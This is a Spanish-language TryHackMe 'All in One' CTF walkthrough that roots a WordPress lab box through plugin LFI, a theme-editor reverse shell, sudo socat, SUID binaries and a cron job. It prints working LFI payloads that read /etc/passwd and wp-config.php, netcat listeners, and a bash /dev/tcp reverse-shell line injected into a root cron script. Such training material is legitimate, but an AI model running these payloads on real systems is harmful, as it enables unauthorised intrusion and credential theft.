# ALL IN ONE [TRYHACKME] / Easy
### (Descifrado, Wordpress, Local File Inclusion (LFI), SUID, Crontab, LXD)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Tenemos varias partes de rootear esta máquina, voy a explicarlas todas.


En primer lugar, como siempre, hacemos el escaneo de nmap, en el cual encontramos 3 puertos abiertos:





Descartamos el FTP porque aunque esté en modo anónimo, es decir que podemos entrar sin contraseña, cuando entramos no hay nada. En su defecto nos vamos a la web, vamos a hacer un escaneo de directorios, en la web principal no hay nada:




Según entramos al directorio "hackathons", ya nos está dando una pista:



Existe un como de cifrado que se llama Vigènere, si miramos el código fuente de la página, vemos que tenemos un texto extraño:



Si nos vamos a la web de cyber chef (https://cyberchef.org) para descifrar esto con Vigènere, nos pide una "key", que en este caso sería "KeepGoing", que es lo más lógico:



Esto nos da una contraseña, la cual usaremos ahora en el otro directorio, "wordpress". Según entramos en este directorio, nos encontramos con un artículo que ha sido escrito por una tal "elyana", la cual podría ser un posible usuario:




# Wp-Scan  (plugin exploit)

Aunque ya tenemos las pistas para entrar en el login de Wordpress, hay otra manera de hacerlo, con la que nos da aún más información de como entrar a la máquina. Siempre que nos encontremos un Wordpress hay que hacer estos escaneos:

```bash
wpscan --url (ip)/wordpress -e u
```



```bash
wpscan --url (ip)/wordpress -e ap
```



El primer escaneo ya nos dió un usuario (que ya estaba en la web principal), y si buscamos por Google los plugins nos da cosas interesantes, vamos a ver cada uno de ellos:

## Mail Masta(Local File Inclusion)

Lo primero que vamos a hacer es buscar el plugin por internet, encontramos un artículo de "exploit-db", que si lo leemos bien, nos aparece una forma de leer archivos del sistema sin ser root: 

```web
http://ip-víctima/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
Como pusimos "passwd", nos aparecen los usuarios:



Vamos a utilizar un wrapper para ver el archivo de configuración de wordpress, "wp-config":

```bash
http://ip-víctima/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```



Nos sale codificado en Base64, lo decodificamos fácilmente:

```bash
echo 'copiamos-todo' | base64 -d > wp-config
```




Nos sale un usuario y una contraseña. Ahora ya podemos entrar en el login de Wordpress con esos datos e ir a template editor:



Nos vamos al footer.php e inyectamos una shell hacia nuestra máquina atacante. Yo utilizo la extensión para firefox de hack-tools:



Nos ponemos a la escucha con NetCat:

```bash
nc -nlvp 441
```
Le damos a update en la web y conseguimos una shell como "www-data":



## Reflex-Gallery

Este plugin en su versión 3.1.3 tiene una vulnerabilidad de Arbitrary File Upload:



igual en metasploit framework, que si ponemos el comando `search reflex gallery` nos aparece esto:



si ponemos `info 0` nos sale lo siguiente:






Ahora vamos a comprobar la versión del plugin en el escaneo de antes:



Es una versión actualizada, nada que hacer en esta parte ya que no funciona el exploit.

# Wordpress (reverse-shell mediante RCE {Remote Code execution})

En wordpress hay un directorio que es el login, vamos a probar a poner wp-login.php como directorio:



En Wordpress hay una vulnerabilidad que te dice si un usuario existe o no, probamos a ver si funciona poniendo elyana y una contraseña aleatoria:



Nos dice que la contraseña es incorrecta, pero nos dice que el usuario Elyana existe. Ahora podríamos hacer un ataque de fuerza bruta, pero tenemos una contraseña que encontramos en el otro directorio, si la probamos vemos que entra:



Ahora que estamos en el panel de admin tenemos mucho poder, podemos realizar un Remote Code Execution (RCE) con un código php malicioso, el cual yo saqué de la extensión hack-tools, que lo saca de pentest monkey:


Antes de darle a "update", nos ponemos a la escucha con netcat:

```bash
nc -nlvp 441
```
Le damos a update y listo, tenemos una shell como www-data:


Ahora que ya hemos visto todas las formas de conseguir una reverse shell, vamos a ver como podemos escalar privilegios hasta ser usuario:

si nos dirigimos al escritorio del usuario "elyana", nos topamos con 2 archivos .txt:



Vemos que solo nos deja leer "hint.txt", nos da una pista que dice que está oculta en el sistema, vamos a ver de que archivos es dueño "elyana":

```bash
find / -user elyana -type f 2>/dev/null | grep -v "Permission" | grep -v "No Such"
```
nos encontramos con este archivo .txt:



vamos a leerlo:



Nos da una contraseña, la cual vamos a usar para cambiar de usuario a elyana con:

```bash
su elyana
```



También podríamos haber entrado mediante ssh, pero de esta manera es más fácil.

Ahora ya podemos leer la flag de user. Vamos a ver como podemos escalar a root:

# Método Sudo -l

Siempre, cuando queremos escalar a root, ponemos este comando

```bash
sudo -l
```
Esto nos muestra los archivos que podemos ejecutar como root, en el caso de esta máquina, nos deja ejecutar /usr/bin/socat:



Vamos a buscarlo por https://gtfobins.github.io:



Ejecutamos el comando y ya somos root:



Nos falta un prompt, pero para eso ejecutamos este comando:

```bash
script /dev/null -c bash
```




# Método SUID
Otro método que siempre se hace para saber que permisos SUID tenemos como un usuario es el siguiente:

```bash
find / -perm -4000 2>/dev/null
```
Nos salen muchos binarios, pero solo 2 nos interesan:






Con la ayuda de gtfobins:



probamos y ya somos root:




# Método Crontab

Otro de los métodos que se suele usar para escalar privilegios es ver los archivos que se ejecutan de forma automática en el sistema, esto lo podemos comprobar con el siguiente comando:



vemos que hay un script que es ejecutado por root cada cierto tiempo en el sistema:



vamos a ver de que se trata:



Vamos a inyectarle un comando de forma que, al ejecutarse automáticamente, nos de una reverse shell como root, utilizaremos el siguiente comando:

```bash
bash -i >& /dev/tcp/(nuestra ip)/(puerto a elegir) 0>&1
```
Lo primero de todo, nos pondremos a la escucha con netcat y ejecutaremos el comando en la máquina víctima poniendo nuestra ip y el puerto que queramos:



Esperamos un rato y lo tenemos:




# ./ROOTED


